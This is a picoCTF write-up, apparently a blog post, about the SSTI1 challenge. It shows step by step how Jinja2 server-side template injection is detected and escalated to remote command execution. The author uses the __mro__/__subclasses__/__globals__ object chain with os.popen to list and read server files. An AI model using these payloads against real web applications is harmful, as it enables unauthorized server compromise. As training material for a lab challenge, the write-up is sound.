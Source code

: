 ```yaml
---
layout: post
title: "picoCTF - SSTI1"
date: 2025-04-20
categories: [CTF, Web, SSTI, picoCTF]
---
```


## Overview

This picoCTF challenge involved a basic web app that allowed users to "announce whatever you want!" through a form input. Upon testing, I discovered the site was vulnerable to **Server-Side Template Injection (SSTI)** using **Jinja2**, which I escalated to **Remote Code Execution (RCE)**.

---

## Step 1: Input Reflection

The homepage contained an input field and an "Ok" button.
![Input Reflection](/assets/img/picoctf/ssti1/img1.png)
I started by typing:
```
test
```

The result page rendered:
![Input Reflection](/assets/img/picoctf/ssti1/img2.png)

This confirmed that input was reflected directly into a rendered template.

---

## Step 2: Detecting SSTI

I then submitted:

```md
{% raw %}{{ 7*7 }}{% endraw %}
```

The result:

![SSTI Result](/assets/img/picoctf/ssti1/img4.png)

Confirmed: Jinja2 is evaluating input — the app is vulnerable to SSTI.

---

## Step 3: Gaining RCE via Python Object Chain

I used Jinja2’s ability to traverse Python internals and executed system commands:
```jinja2
{% raw %}
{{ ''.__class__ }}                              → <class 'str'>
{{ ''.__class__.__mro__ }}                      → method resolution order
{{ ''.__class__.__mro__[1] }}                   → <class 'object'>
{{ ''.__class__.__mro__[1].__subclasses__() }}  → list of all subclasses
{% endraw %}
```

I found the correct index (e.g., 408) with some trial and error:

```jinja2
{% raw %} {{ ''.__class__.__mro__[1].__subclasses__()[408] }} {% endraw %}
```

---

## Step 4: Executing Commands

Now I used that class to run system commands:

```jinja2
{% raw %} {{ ''.__class__.__mro__[1].__subclasses__()[408].__init__.__globals__['os'].popen('ls').read() }} {% endraw %}
```

This listed the files on the server. One of them was `flag`.

To read the flag:

```jinja2
{% raw %} {{ ''.__class__.__mro__[1].__subclasses__()[408].__init__.__globals__['os'].popen('cat flag').read() }} {% endraw %}
```

Boom — the flag was revealed.

---

## Conclusion

This challenge is a textbook demonstration of how SSTI in Jinja2 can lead to full server compromise. Always validate and sanitize user input, and never pass raw data into templates.

**Flag:** `picoCTF{example_flag_here}`

